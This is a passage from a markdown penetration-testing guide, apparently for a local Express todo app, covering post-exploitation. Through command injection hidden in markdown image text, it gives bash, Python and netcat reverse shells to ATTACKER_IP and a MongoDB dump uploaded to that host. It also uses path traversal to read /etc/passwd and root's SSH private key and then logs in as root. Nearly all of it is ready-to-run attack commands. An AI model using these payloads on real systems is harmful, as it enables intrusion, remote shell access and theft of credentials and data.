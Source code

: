 
## 5. Post-Exploitation

### 5.1 Netcat - Establish Reverse Shell

**Objective**: Get shell access via command injection

#### Setup Listener (Attacker)
```bash
# Start listener
nc -lvnp 4444
```

#### Trigger Reverse Shell (via Command Injection)
```bash
# Bash reverse shell
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" "Image")'

# Python reverse shell
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" "Image")'

# Netcat reverse shell
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;nc ATTACKER_IP 4444 -e /bin/bash "Image")'
```

#### Upgrade to Interactive Shell
```bash
# In reverse shell:
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fg
# Press Enter twice
```

---

### 5.2 Data Exfiltration

```bash
# Exfiltrate MongoDB database
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;mongodump --db express-todo --out /tmp/dump && tar -czf /tmp/db.tar.gz /tmp/dump && curl -X POST -F "file=@/tmp/db.tar.gz" http://ATTACKER_IP/upload "Image")'

# Exfiltrate /etc/passwd
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd' > passwd.txt

# Exfiltrate SSH keys
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/root/.ssh/id_rsa' > root_key
chmod 600 root_key
ssh -i root_key root@target
```